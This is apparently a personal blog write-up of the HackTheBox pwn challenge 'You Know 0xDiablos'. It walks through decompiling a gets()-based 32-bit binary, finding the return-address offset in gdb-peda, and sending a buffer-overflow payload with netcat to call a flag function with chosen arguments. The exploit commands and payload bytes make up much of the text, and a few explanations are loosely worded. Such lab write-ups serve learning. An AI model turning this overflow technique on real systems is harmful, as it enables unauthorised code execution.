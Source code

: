 ```yaml
---
title: HackTheBox - Pwn - You Know 0xDiablos
date: 2022-03-01 12:00:00 +/- 0000
categories: [HackTheBox,Pwn,BinaryExploit]
author: Connor Weeks-Pearson
tags: [pwn,0xdiablos]
image: /assets/img/Icons/pwn/pwn.png
---
```


I've never done a binary exploit here on HTB, the first exposure i had to them was at university yeara ago, but it's always something i've found interesting, so here goes! I will be using google for help because how else am i  going to learn!

Description: I missed my flag

***IP: 139.59.183.98:32124***
***Files: 1 - vuln***

---

## Analysis

First thing lets discover the type of file `vuln` is:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
</pre>

`vuln` is an ELF 32-bit executable. Executing the file, the programme outputs some  text and then waits for a reply. It then redirects the input to the output.

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ ./vuln
You know who are 0xDiablos: 
test 
test
</pre>

Now it's time to use ghidra!

---

## Ghidra

Having never used ghidra before this was very fun! After loading the file into Ghidra,  i had a look at the different functions. Of these, 3 stood out: vuln, flag and main. 

### vuln()

```c++
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```

So what we can see here is there is an allocated 180 character array, that will hold the input using `gets` and then print it. After some googling, gets was replaced with fgets due to buffer overflow attacks.

### flag()

```c++
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function is a bit different. A char array size of 64 is allocated as `local_50`, reads the file "flag.txt" and saves it to `local_50`. If function params are the same as `0x21524111` and `0x3f212ff3`, it will print the content of `local_50`.

The assembly code for 0x21524111 is `0xdeadbeef` and 0x3f212ff3 is `0xc0ded00d`.

---

## Exploiting
I will be using gdp-peda to exploit the `gets` function using a buffer overflow to jump into `flag()` to get the flag. Lets load the file, and start. We should hit an automatic breakpoint.

```asm
gdb-peda$ start
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xf7fb1a28 --> 0xffffd1ec --> 0xffffd3c1 ("COLORFGBG=15;0")
EBX: 0x0 
ECX: 0xffffd140 --> 0x1 
EDX: 0xffffd174 --> 0x0 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd120 --> 0xffffd140 --> 0x1 
EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)                                                                           
[-------------------------------------code-------------------------------------]                                                                          
   0x80492bc <main+11>: mov    ebp,esp
   0x80492be <main+13>: push   ebx
   0x80492bf <main+14>: push   ecx
=> 0x80492c0 <main+15>: sub    esp,0x10
   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
   0x80492c8 <main+23>: add    ebx,0x2d38
   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]                                                                          
0000| 0xffffd120 --> 0xffffd140 --> 0x1 
0004| 0xffffd124 --> 0x0 
0008| 0xffffd128 --> 0x0 
0012| 0xffffd12c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd130 --> 0xf7faf000 --> 0x1e9d6c 
0020| 0xffffd134 --> 0xf7faf000 --> 0x1e9d6c 
0024| 0xffffd138 --> 0x0 
0028| 0xffffd13c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]                                                                          
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x080492c0 in main ()
```

Knowing there is a 180 character buffer, i created a file containing 200 characters and saved it as in.txt, which will be used to discover the EIP offset.

```asm
db-peda$ pattern_create 200 in.txt
Writing pattern of 200 chars to filename "in.txt"
gdb-peda$ r < in.txt
Starting program: /home/kali/Desktop/vuln < in.txt
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffd110 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
...
```

We can see the EIP address is `0x41417741`, so lets find the offset, so that we can control the EIP.

```asm
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now lets get the address of `flag()`

```asm
gdb-peda$ disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
   0x080491e3 <+1>:     mov    ebp,esp
   0x080491e5 <+3>:     push   ebx
   0x080491e6 <+4>:     sub    esp,0x54
   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
...
```

The address is 0x080491e2, which will translate to `\xe2\x91\x04\x08`

## Python Buffer Overflow

I will be using python to try and jump into the function `flag()`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ python -c "print('A'*188 + '\xe2\x91\x04\x08')" | ./vuln           139 ⨯
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```



It successfully jumped into the code function. Now i know i need to pass the args into the function, and so some googling commenced. I read about `DUMB` addresses, in which the arguements called need to be supplied in reverse order. These parameters  are 0xdeadbeef and 0xc0ded00d, which when reversed turns into:

`\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

This turns the entire python script into:

`python -c "print('A'*188 + '\xe2\x91\x04\x08' + 'AAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | > exploit.txt`

## Deploying the Exploit
All that is needed now is to deploy the exploit to the docker server using netcat. This was done by the following:

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat exploit.txt | nc 139.59.183.98 32124
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�DUMBﾭ�
HTB{flag}  
```
